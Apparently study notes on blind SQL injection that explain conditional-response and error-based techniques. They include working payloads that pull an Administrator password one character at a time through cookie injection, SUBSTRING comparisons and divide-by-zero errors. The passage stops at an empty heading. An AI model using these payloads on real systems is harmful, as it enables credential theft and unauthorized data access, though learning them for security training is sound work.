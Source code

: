 Many techniques such as `UNION` attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

#### Exploiting blind SQL injection by triggering conditional responses

```SQL
-- Initial query
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4';

-- Additional query with logic
u5YD3PapBcR4lN3e7Tj4' AND '1'='1 -- return TRUE
u5YD3PapBcR4lN3e7Tj4' AND '1'='2 -- return FALSE
```

- From here we can use SUBSTRING in combination with boolean to check the length and check each character of the password to see if it is correct.

```SQL
-- Indicating that the injected condition is true, and so the first character of the password is greater than m
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

-- Indicating that the injected condition is true, and so the first character of the password is equal m
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'm
```

### Error-based SQL injection

Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.

#### Exploiting blind SQL injection by triggering conditional errors

```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

- With the first input, the CASE expression evaluates to `a`, which does not cause any error.
- With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.

- We can use this error to check one of character in password is equal to `a`.

```SQL
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) = 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

#### Extracting sensitive data via verbose SQL error messages
